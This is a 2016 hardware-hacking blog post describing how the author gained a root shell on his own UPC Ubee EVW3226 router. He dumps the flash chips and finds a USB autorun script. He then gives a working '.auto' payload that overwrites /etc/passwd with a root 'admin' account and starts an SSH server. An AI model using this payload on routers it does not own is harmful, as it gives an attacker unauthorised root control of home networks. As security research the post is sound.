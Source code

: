 +++
Description = "UPC Ubee EVW3226 Fail"
title = "UPC Ubee EVW3226 Fail"
date = "2016-01-17T12:45:00+01:00"
metakeys = ["Ubee EVW3226", "UPC", "root shell", "hacking"]

+++

Inspired by [Blasty](https://twitter.com/bl4sty) and his [UPC Wifi key generator](https://haxx.in/upc-wifi/) I decided to take a look at my UPC router too. It's a **Ubee EVW3226** with a custom firmware built by UPC providing a modified web interface and a lot of other stuff.

<!--more-->

First I tried to identify some debug pins on the board and found multiple possible UART connectors. I connected my [Buspirate](https://www.sparkfun.com/products/9544) to the first UART and got a login shell protected by a password. I tried some default passwords but was not able to get in so I needed to find another way. According to [another blog post](https://www.freeture.ch/?p=766) I found there is also a second UART connector with no password but this one was not working on my device.

[![UART](/img/ubee/uart_thumb.png)](/img/ubee/uart.png)

So I took a deeper look at the chips on the board and identified two flash chips: *Spansion FL128PIF*. By looking at the [datasheet](http://www.spansion.com/Support/Datasheets/S25FL128P_00.pdf) I discovered there are some SPI pins on the chip to dump its content (or write to it). So I attached a SOIC test clip on top of the flash chip and connected my [GoodFET](http://goodfet.sourceforge.net/) to it. Using the test clip is a good alternative because there is no need to desolder any chips. I was able to dump the whole 16MB memory of each chip using this method with `spiflash dump`. The address ranges to dump can be taken from the datasheet too.

[![DUMP](/img/ubee/testpin_thumb.png)](/img/ubee/testpin.png)

The next thing to do was to extract the content of the dumped images. By using the latest development version of [binwalk](https://github.com/devttys0/binwalk) I was able to extract the file system contents of both chips. This dump only contains the firmware with no dynamic content from UPC so far so the running config is still missing.

After peeking around some binaries with IDA I found the following code in *aimDaemon*:

[![Extract Label](/img/ubee/extract_label_thumb.png)](/img/ubee/extract_label.png)

[![Extract Label](/img/ubee/check_label_thumb.png)](/img/ubee/check_label.png)

[![Extract Label](/img/ubee/execute_shell_thumb.png)](/img/ubee/execute_shell.png)

The snippets show the relevant code sections: The binary extracts the label of an external attached USB device and if it matches `EVW3226` it executes `/var/tmp/mount-usb.sh` with `go` as a first parameter.

`mount_usb.sh`:
```bash
#!/bin/bash
if [ $1 == "go" ]; then
  dev_path=$(blkid /dev/sd |cut -c 1-9)
  eval $(blkid /dev/sd |cut -d " " -f 2)
  eval $(blkid /dev/sd |cut -d " " -f 3)
  eval $(blkid /dev/sd |cut -d " " -f 4)
  echo "dev_path=\"$dev_path\" LABEL=\"$LABEL\" UUID=\"$UUID\" TYPE=\"$TYPE\"" >> /tmp/mountlist

  umount_folder=$(mount | grep "/var/tmp" | awk '{print $3}')
  for curr_folder in $umount_folder ; do
      if [ -n "$curr_folder"]; then
  		umount -l $curr_folder
          rm -fr $curr_folder
  	  fi
  done

  for curr_folder in $UUID ; do
    mkdir /var/tmp/media/$curr_folder -p
    if [ "$TYPE" == "ntfs" ]; then
      	echo "ntfs-3g "$dev_path" /var/tmp/media/"$curr_folder
      	ntfs-3g $dev_path /var/tmp/media/$curr_folder
    else
      	echo "mount "$dev_path" /var/tmp/media/"$curr_folder
      	mount $dev_path /var/tmp/media/$curr_folder
    fi
    if test -f /var/tmp/media/$curr_folder/.auto
	then
	    rm -fr /var/tmp/disk
	    cd /var/tmp
	    ln -s /var/tmp/media/$curr_folder disk
	   	chmod +x /var/tmp/media/$curr_folder/.auto
	   	sh /var/tmp/media/$curr_folder/.auto
	fi
    done
    if [ $2 == "1" ]; then
    	killall minidlna
    	/fss/fss2/sbin/minidlna -R -f /var/tmp/minidlna.conf
    fi
else
echo $1 ... >> /var/tmp/.usbadd
fi
```

As you may see this script mounts the usb stick and checks if the stick has a `.auto` file present. If the file exists a symbolic link to `/var/tmp/disk` is created and the `.auto` file is executed with `sh`.

So by creating an USB stick with the correct label and this autorun file we are able to execute any commands we like on the router.

The device is capable of running in router or in bridge mode. It looks like there is some check in place to only execute the script when running in `router` mode so be sure to switch to this mode if you want to try it on your own.

So lets first prepare our USB stick:

```bash
umount /dev/sdb1
fdisk /dev/sdb # clear partition table and create a new primary partition
mkfs.vfat /dev/sdb1
mlabel -i /dev/sdb1 ::EVW3226
```

Let's try to start a telnet server on the device by putting the following in the `.auto` file:

```bash
telnetd &
```

After plugging the stick in and waiting a few seconds I was able to connect via telnet. Unfortunately it seems some process is killing `telnetd` on a regular basis so it's no stable way to get access to the device.

Luckily there is also dropbear present so we can start a ssh server. The filesystem is missing the required hostkeys so I recreated them on a Ubuntu VM on the USB stick by

```bash
dropbearkey -t rsa -f /media/firefart/EVW3226/dropbear_rsa_host_key
```

As I was not able to crack the password hashes in a reasonable time we also need to add our own user. I did this by just overwriting `/etc/passwd` with an `admin:admin` hash.

So the final `.auto` file looks like

```bash
#!/bin/bash
echo admin:FvTuBQSax2MqI:0:0:admin,,,:/:/bin/sh > /etc/passwd
dropbear -r /var/tmp/disk/dropbear_rsa_host_key -p 192.168.0.1:22
```

After plugging in the USB-Stick and waiting a few seconds we can connect to the device using ssh and login using the password `admin`.

```bash
ssh admin@192.168.0.1
```

The next steps are to peek around the device. There are already a lot of passwords and private keys lying around in the firmware image.

There was also a great talk on 32C3 - [Beyond Your Cable Modem](https://media.ccc.de/v/32c3-7133-beyond_your_cable_modem) which gives some good ideas what to check next.
